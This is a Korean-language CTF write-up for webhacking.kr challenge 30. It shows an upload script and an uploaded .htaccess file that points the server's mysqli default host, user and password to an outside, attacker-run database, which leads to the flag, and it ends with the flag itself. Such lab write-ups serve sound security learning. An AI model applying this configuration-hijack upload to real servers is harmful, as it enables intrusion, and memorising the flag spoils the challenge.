


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

view_source를 클릭하면 chall30_answer 테이블에서 flag컬럼의 데이터를 뽑아오는 코드를 확인할 수 있다.

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

파일 하나를 업로드 해본다.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10003/index.php'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile': ('hello.txt', 'hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
```


PHP파일은 필터링 된다.



이 때, mysqli_connect() 함수에 인자 값이 없다는 것에 주목해야 한다.

> [PHP mysqli_connect](https://www.php.net/manual/en/mysqli.construct.php)


ini_get에 mysqli.default_host 등 인자를 가져오는데 default값은 다음과 같다.

> [PHP ini list](https://www.php.net/manual/en/ini.list.php)

mysqli.default_port와 같이 PHP_INI_ALL로 할당되어 있는 항목들은 php.ini, .htaccess, httpd.conf 또는 .user.ini 등에서 설정하여 불어 올 수 있다.

> [PHP configuration changes mode](https://www.php.net/manual/en/configuration.changes.modes.php)

|Name|Default|Changeable|Changelog|
|:---:|:---:|:---:|:---:|
|mysqli.default_port|"3306"|PHP_INI_ALL||
|mysqli.default_socket|NULL|PHP_INI_ALL||
|mysqli.default_host|NULL|PHP_INI_ALL||
|mysqli.default_user|NULL|PHP_INI_ALL||
|mysqli.default_pw|NULL|PHP_INI_ALL||

우선 로컬에서 DB를 만들어 주고, 포트포워딩도 시켜주자.


권한도 풀어주자.

```sql
create user test;
GRANT ALL ON chall30.* TO 'test'@'%' IDENTIFIED BY 'test';
FLUSH PRIVILEGES;
```

.htaccess 파일을 다음과 같이 만들어 준다.

    php_value mysqli.default_port "10000"
    php_value mysqli.default_host "61.251.215.194"
    php_value mysqli.default_user "test"
    php_value mysqli.default_pw "test"

그리고 업로드된 폴더의 index.php에 접근하면 FLAG를 획득할 수 있다.



점수를 획득하자.


# **FLAG**

**FLAG{uhoh-db-connection-hijacking?}**